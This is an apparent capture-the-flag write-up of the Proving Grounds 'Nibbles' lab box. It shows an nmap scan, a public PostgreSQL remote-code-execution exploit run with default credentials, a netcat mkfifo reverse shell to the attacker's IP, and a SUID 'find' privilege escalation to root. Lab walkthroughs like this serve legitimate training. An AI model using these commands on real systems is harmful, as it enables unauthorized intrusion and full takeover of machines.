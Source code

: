 ```yaml
---
title: Proving Grounds - Nibbles
date: 2022-11-02
author: Marius
tags: [ctf, 'proving grounds', 'pg']
---
```


Nibbles is a intermediate rated box on Proving Grounds, which is also found in NetSec Focus trophy list and in many OSCP preparation lab lists.

### Nmap Scan

```
└─$ nmap -sV -sC 192.168.157.47             
Starting Nmap 7.93 ( https://nmap.org ) at 2022-11-02 10:04 EDT
Nmap scan report for 192.168.157.47
Host is up (0.12s latency).

PORT     STATE SERVICE    VERSION
21/tcp   open  ftp        vsftpd 3.0.3
22/tcp   open  ssh        OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
80/tcp   open  http       Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Enter a title, displayed at the top of the window.
5437/tcp open  postgresql PostgreSQL DB 11.3 - 11.9

```

### UDP Scan

No ports open

### FTP

Anonymous access is disabled, moving on for now.

### HTTP

* Directory brute forcing gave no results
* Attempted to fuzz http://192.168.157.47/page2.html with different page number combinations with no results
* No low hanging fruits, moving on for now

### Posgresql

Searched google for "PostGreSQL 11.3 Exploit" and stumbled across [PostgreSQL 9.3-11.7 - Remote Code Execution (RCE) (Authenticated)](https://www.exploit-db.com/exploits/50847)

Downloaded and attempted to run this with default values even though it's authenticated. Just edited the script to change the port and IP address and it seemed to work. Looks like default username/password was not changed.

```
┌──(kali㉿kali)-[~/ctf/pg_practise/nibbles]
└─$ python 50847.py 

[+] Connecting to PostgreSQL Database on 192.168.157.47:5437
[+] Connection to Database established
[+] Checking PostgreSQL version
[+] PostgreSQL 11.7 is likely vulnerable
[+] Add the argument -c [COMMAND] to execute a system command

```

Added a reverse shell to command parameter and we got a local user shell !

```
┌──(kali㉿kali)-[~/ctf/pg_practise/nibbles]
└─$ python 50847.py -c "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.49.157 80 >/tmp/f"

[+] Connecting to PostgreSQL Database on 192.168.157.47:5437
[+] Connection to Database established
[+] Checking PostgreSQL version
[+] PostgreSQL 11.7 is likely vulnerable
[+] Creating table _8e1261939f6bc6f21e1804f30e744ab7

```

Local flag

```
$ whoami
postgres
$ find / -name local.txt 2>/dev/null
/home/wilson/local.txt
```

### Privilege escalation

I spawned tty with python and did SUID and crontab checks first.

```
$ python3 -c "import pty;pty.spawn('/bin/bash')"
postgres@nibbles:/var/lib/postgresql/11/main$

postgres@nibbles:/var/lib/postgresql/11/main$ find / -type f -perm -04000 -ls 2>/dev/null 
</main$ find / -type f -perm -04000 -ls 2>/dev/null 
   137358     12 -rwsr-xr-x   1 root     root        10232 Mar 28  2017 /usr/lib/eject/dmcrypt-get-device
    19052    428 -rwsr-xr-x   1 root     root       436552 Jan 31  2020 /usr/lib/openssh/ssh-keysign
    15602     52 -rwsr-xr--   1 root     messagebus    51184 Jun  9  2019 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
      282     56 -rwsr-xr-x   1 root     root          54096 Jul 27  2018 /usr/bin/chfn
      286     64 -rwsr-xr-x   1 root     root          63736 Jul 27  2018 /usr/bin/passwd
      285     84 -rwsr-xr-x   1 root     root          84016 Jul 27  2018 /usr/bin/gpasswd
      283     44 -rwsr-xr-x   1 root     root          44528 Jul 27  2018 /usr/bin/chsh
    34845     36 -rwsr-xr-x   1 root     root          34896 Jan  7  2019 /usr/bin/fusermount
     3838     44 -rwsr-xr-x   1 root     root          44440 Jul 27  2018 /usr/bin/newgrp
      261     64 -rwsr-xr-x   1 root     root          63568 Jan 10  2019 /usr/bin/su
     4071     52 -rwsr-xr-x   1 root     root          51280 Jan 10  2019 /usr/bin/mount
     2248    312 -rwsr-xr-x   1 root     root         315904 Feb 16  2019 /usr/bin/find
    22663    156 -rwsr-xr-x   1 root     root         157192 Feb  2  2020 /usr/bin/sudo
     4073     36 -rwsr-xr-x   1 root     root          34888 Jan 10  2019 /usr/bin/umount

postgres@nibbles:/var/lib/postgresql/11/main$ cat /etc/crontab
cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# Example of job definition:
# .---------------- minute (0 - 59)
# |  .------------- hour (0 - 23)
# |  |  .---------- day of month (1 - 31)
# |  |  |  .------- month (1 - 12) OR jan,feb,mar,apr ...
# |  |  |  |  .---- day of week (0 - 6) (Sunday=0 or 7) OR sun,mon,tue,wed,thu,fri,sat
# |  |  |  |  |
# *  *  *  *  * user-name command to be executed
17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )

```
Looking through SUID files I noticed there's find executable which is not something I have seen frequently. Double checking it on GTFOBins we can see it can be used to elevate our privileges.
```
postgres@nibbles:/var/lib/postgresql/11/main$ /bin/find . -exec /bin/sh -p \; -quit
<esql/11/main$ /bin/find . -exec /bin/sh -p \; -quit
# whoami 
whoami
root
```

GG we got root.
